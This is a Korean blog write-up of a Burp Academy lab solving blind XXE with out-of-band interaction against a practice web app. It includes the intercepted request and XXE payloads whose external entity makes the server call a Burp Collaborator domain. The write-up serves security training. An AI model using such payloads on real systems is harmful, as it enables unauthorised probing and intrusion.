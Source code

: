 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Blind XXE with out-of-band interaction"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- 블라인드 XXE 로 out-of-band 통신을 발생시키는 것을 실습하는 문제이다. 
- 문제 주소: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction
- 블라인드 XXE 설명 주소: https://portswigger.net/web-security/xxe/blind
- 난이도: PRACTITIONER (중간)

# 문제분석 
- 이전 문제와 마찬가지로 "Check stock" 기능으로 XXE가 가능하다. 
- XXE로 문제 서버를 외부도메인과 통신하도록  (out-of-band interaction) 하는 것이  가능하다. 
- XXE를 통해 특정 DNS 요청을 발생시키면 될 것 같다. 
- DNS 요청이 발생했다는 것을 알기 위해서 Burp Collaborator 서버를 사용한다. 
- PortSwigger사의 [Burp Collaborator 설명](https://portswigger.net/burp/documentation/collaborator){:target="_blank"}을 보면 디폴트 Burp Collaborator 서버의 도메인은 `*.burpcollaborator.net` 또는  `*.oastify.com` 라는 것을 알 수 있다. 

```
This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

# 풀이 

## XXE 가능한 곳 발견
이전 문제들과 마찬가지로 "Check stock" 버튼 클릭시 발생하는 POST 요청의 바디 부분이 XML로 되어 있는 것을 발견했다. 

```http
POST /product/stock HTTP/1.1
Host: 0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net
Cookie: session=gBA3k6jT5f5DjHzCRpxVSxXg72sbIc5E
Content-Length: 107
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108", "Google Chrome";v="108"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0aa9007d0461bff2c00aaee6002e00b7.web-security-academy.net/product?productId=5
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ko;q=0.8
Connection: close

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>5</productId><storeId>1</storeId></stockCheck>
```

## 1차 시도 
HTTPS 요청 하는 대상을 burpcollaborator.net의 임의의 서브도메인 xxetest를 지정한 `xxetest.burpcollaborator.net` 로 지정해서 요청해보았다. 

```xml 
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

응? `XML parsing error` 가 발생했다. XML 형식이 잘못된 건가?   
생각해보니 블라인드 XXE 문제이므로 XXE결과를 HTTP 응답에 포함시킬 필요는 없을 것 같다. 문제 서버가 외부로 DNS 요청을 하도록 만들기만 하면 되는 것이다. 

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 19

"XML parsing error"
```

## 2차 시도 
페이로드에서 `&xxe;` 를 없애고 보내봤다. 

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://xxetest.burpcollaborator.net"> ]>
<stockCheck>
	<productId>5</productId>
	<storeId>1</storeId>
</stockCheck>
```

평범한 응답이 돌아온다. 

```http
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

183
```

![Blind XXE Repater](/images/burp-academy-xxe-3-repeater.png)

여기서 웹 페이지를 보면 성공했다는 메세지가 보인다. 문제서버에서 burpcollaborator.net 도메인을 관리하는 DNS서버로 `xxetest.burpcollaborator.net` 도메인의 IP를 물어보는 DNS 쿼리가 발생한 것이다! 

![Blind XXE 성공](/images/burp-academy-xxe-3-success.png)

